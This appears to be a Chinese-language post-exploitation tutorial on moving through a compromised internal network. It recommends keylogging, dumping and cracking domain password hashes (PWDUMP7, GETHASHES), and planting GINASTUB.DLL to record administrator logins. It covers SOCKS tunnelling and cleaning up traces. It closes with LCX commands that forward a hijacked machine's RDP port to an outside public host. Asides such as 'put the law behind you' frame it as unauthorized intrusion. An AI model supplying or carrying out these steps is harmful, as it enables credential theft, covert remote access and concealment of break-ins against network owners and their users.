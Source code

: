 ## 1..获取记录

不论是通过键盘记录.或者HASH的抓取,我们需要将账号,密码,邮箱,凡是涉及关键数据的全部保存,一方面是准备渗透的资料,二是防止当前利用机器会掉.

## 2.抓取域(如果有)

利用PWDUMP7或者GETHASHES进行抓取HASH,然后破解.GETHASHES V1.4后 可以抓取域的全部HASH.

## 3.尝试获取管理员信息

用GINASTUB.DLL获取管理员的账号和密码.因为域管理员有权限登陆任何一台机器.种上这个只是方便记录他所登陆的密码.INSTALL后,会在SYSYTEM32下生成一个 FAXMODE.INC 文件记录密码.(记事本大法好)


## 4.建立SOCKS链接

有了内网,很多东西我们是没有必要直接在当前利用机器上操作的,别人虽然是内网,但是不代表他没有防御系统,所以,我们建立SOCKS或者VPN是很有必要的,建立SOCKS相信大家都会了吧.(不会的你不会去fuck163吗)

> <h2>(ps)我在这推荐 `VIDC` 这个工具,很方便,在CMD下直接操 VIDC.EXE -D -P PORT 就可以了.(github有售)
</h2>

## 5.用SOCKSCAP来进行连接。

建立SOCKS后在本地可以用SOCKSCAP来进行连接,成功连接后该操作什么就看你们自己了.(把法律抛在脑后？！)

# 4.收拾残局

改删的删改留的留，我们是正经渗透团队！你要信我呀。

> <h2>删库到跑路？(大雾)

- 内网端口转发与代理工具总结

- http://www.91ri.org/17457.html
- https://www.freebuf.com/articles/network/210653.html
- https://www.freebuf.com/articles/web/181723.html
- https://www.freebuf.com/articles/web/170970.html
- https://www.jianshu.com/p/735e8f1746f0


## windows端口转发工具（LCX）

端口转发（Port forwarding），有时被叫做隧道，是安全壳(SSH) 为网络安全通信使用的一种方法。端口转发是转发一个网络端口从一个网络节点到另一个网络节点的行为，其使一个外部用户从外部经过一个被激活的NAT路由器到达一个在私有内部IP地址（局域网内部）上的一个端口。

这里我就用工具是Lcx，Lcx.exe是一个端口转发工具，相当于把肉鸡A上的3389端口转发到具有外网IP地址的B机上，这样连接B机的3389端口就相当于链接A机的3389端口。Lcx程序多用于被控制计算机(肉鸡)处于内网的情况，被控制机可能中了木马程序，虽然能够进行控制，但还是没有使用远程终端登陆到本机进行管理方便，因此在很多情况下，都会想方设法在被控制计算机上开启3389端口，然后通过lcx等程序进行端口转发，进而在本地连接到被控制计算机的远程终端并进行管理和使用。


在目标机器上执行lcx.exe -slave 公网ip 端口 内网ip 端口

例如：`lcx.exe –slave 154.223.*.* 51 192.168.*.* 3389` 将内网的3389端口转发到公网的51端口

然后在公网的机器上：Lcx.exe –listen 监听51端口，转发到公网机器的3389端口

例如：`Lcx.exe –listen 51 3389`

